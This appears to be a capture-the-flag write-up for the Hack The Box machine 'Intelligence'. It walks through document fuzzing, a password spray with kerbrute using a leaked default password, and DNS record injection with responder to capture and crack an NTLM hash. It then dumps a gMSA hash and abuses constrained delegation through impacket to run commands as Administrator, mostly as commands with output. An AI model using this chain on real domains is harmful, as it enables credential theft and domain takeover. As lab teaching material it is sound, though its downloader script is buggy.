


```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-09-16 21:51:39Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
5985/tcp  open  wsman
9389/tcp  open  adws
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## User

We find different documents on the webpage linked like the "Anouncement Document" for example:


This leads us to an URL like this: http://intelligence.htb/documents/2020-01-01-upload.pdf

We used `fuff` to fuzz more documents:
```bash
  ffuf -c -w ~/Downloads/days.txt -u http://intelligence.htb/documents/2020-10-FUZZ-upload.pdf
```
With a days.txt like:
```
01
[...]
31
```

Since that is still pretty annoying we wrote this little script which will download all the files:
```python
import requests
import os
# http://intelligence.htb/documents/2020-12-30-upload.pdf
# curl http://some.url --output some.file

url = "http://intelligence.htb/documents/"
for i in (2021,2020):
    for j in range(1,13):
        for k in range(1,32):
            filename=f"{i}-{j:02}-{k:02}-upload.pdf"
            r = request.get(url+filename)
            if (r.status_code == 200):
                os.system("curl {url}{filename} --output {filename}")
```


A lot of them are just trash but one gives us a nice hint:
http://intelligence.htb/documents/2020-06-04-upload.pdf
```
New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876

After logging in please change your password as soon as possible.
```
All the pdfs are written by different authors:



We can use this to get all the creators:
```bash
strings * | grep Creator | cut -d "(" -f2 | cut -d ")" -f1 | grep -v TeX | sort | uniq > user.txt
```

Now we can use kerbrute to brute force all enumerated users with the password we found:
```
└─$ ./kerbrute_linux_386 passwordspray -d intelligence.htb --dc intelligence.htb ~/Downloads/intelligence_htb/user.txt NewIntelligenceCorpUser9876                                          130 ⨯

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 09/16/21 - Ronnie Flathers @ropnop

2021/09/16 12:39:22 >  Using KDC(s):
2021/09/16 12:39:22 >   intelligence.htb:88

2021/09/16 12:39:22 >  [+] VALID LOGIN WITH ERROR:       Tiffany.Molina@intelligence.htb:NewIntelligenceCorpUser9876     (Clock skew is too great)
2021/09/16 12:39:22 >  Done! Tested 30 logins (1 successes) in 0.247 seconds
```
This gives us access to smb with: `Tiffany.Molina:NewIntelligenceCorpUser9876`.

## Root

With `dnstool.py` from [kerbrelayx](https://github.com/dirkjanm/krbrelayx) we can manipulate the dns of the AD Integrated DNS records:
```
python3 dnstool.py -u "intelligence\Tiffany.Molina" -p "NewIntelligenceCorpUser9876" -a add -r webjohn.intelligence.htb -d 10.10.14.59 10.129.222.90
```
Using responder we can catch the hashes of other users using the share now:


Hashcat with `-m 5600` cracks the hash of Ted.Graves:
```
TED.GRAVES::intelligence:ebb51e288cbc03ee:1faba755cb06cac905dea0194e709446:0101000000000000e987a3625aabd70170e836abee220e1100000000020008004a00540049004c0001001e00570049004e002d004d00530041003300300058004a005800520043005200040014004a00540049004c002e004c004f00430041004c0003003400570049004e002d004d00530041003300300058004a0058005200430052002e004a00540049004c002e004c004f00430041004c00050014004a00540049004c002e004c004f00430041004c000800300030000000000000000000000000200000a4b9af47af851d0417c48a2733873bce33e66c15d5a9f81566da290fa6cf16040a0010000000000000000000000000000000000009003a0048005400540050002f0077006500620068006500780070002e0069006e00740065006c006c006900670065006e00630065002e006800740062000000000000000000:Mr.Teddy
```

Using [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) for Group Managed Service Accounts we can get the hash of `svc_int$`:
```
└─$ python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy  -d intelligence.htb

Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::d170ae19de30439df55d6430e12dd621
```

From impacket we can request a service ticket here:
```
┌──(kali㉿kali)-[~/Downloads/intelligence_htb/impacket/examples]
└─$ python3 getST.py intelligence.htb/svc_int$  -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate Administrator

Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
But the time seems to be off so you might use `sudo ntpdate 10.129.222.90` to synchronize.

Exporting the received cache (`export KRB5CCNAME=Administrator.ccache`) we can use the `atexec.py` from impacket to execute commands as root:
```
┌──(kali㉿kali)-[~/Downloads/intelligence_htb/impacket/examples]
└─$ python3 atexec.py -k -no-pass dc.intelligence.htb 'type C:\Users\Administrator\Desktop\root.txt'  
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[!] This will work ONLY on Windows >= Vista
[*] Creating task \qgbzMSEG
[*] Running task \qgbzMSEG
[*] Deleting task \qgbzMSEG
[*] Attempting to read ADMIN$\Temp\qgbzMSEG.tmp
272a273afe12d084d9749622b353d1b5
```


